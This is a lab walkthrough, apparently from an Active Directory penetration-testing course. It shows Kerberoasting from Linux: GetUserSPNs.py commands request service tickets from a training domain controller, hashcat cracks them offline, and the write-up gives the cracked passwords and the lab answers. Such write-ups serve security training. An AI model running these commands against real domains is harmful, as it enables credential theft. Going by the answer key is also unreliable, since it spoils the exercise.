







<div align='center'>

# **Lab 13: Kerberoasting - from Linux** 

</div>

## **Kerberoasting with GetUserSPNs.py**

**Listing SPN Account**

```zsh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```



**Requesting all TGS Tickets**

Pull all TGS tickets for offline processing using the -request flag. The TGS tickets will be output in a format that can be readily provided to Hashcat or John the Ripper for offline password cracking attempts

```zsh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```



**Requesting a Single TGS ticket**

```zsh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

Here is the [ticket](../docs/sqldev_TGSTicket.txt) for the user sqldev

**Cracking the Ticket Offline with Hashcat**

```zsh
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force
```



We can see that the password is `database!`

**Testing Authentication against a Domain Controller**



**Question:** Retrieve the TGS ticket for the SAPService account. Crack the ticket offline and submit the password as your answer.

- Requesting a Single TGS ticket

```zsh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user SAPService -outputfile sapservice_tgs
```

We get the [ticket](../docs/sapservice_TGSTicket.txt) for the user SAPService

- Cracking the Ticket

```zsh
hashcat -m 13100 sapservice_tgs /usr/share/wordlists/rockyou.txt --force
```



We can see that the password is `!SapperFi2`

- **Answer:** !SapperFi2



**Question:** What powerful local group on the Domain Controller is the SAPService user a member of?



- **Answer:** Account Operators
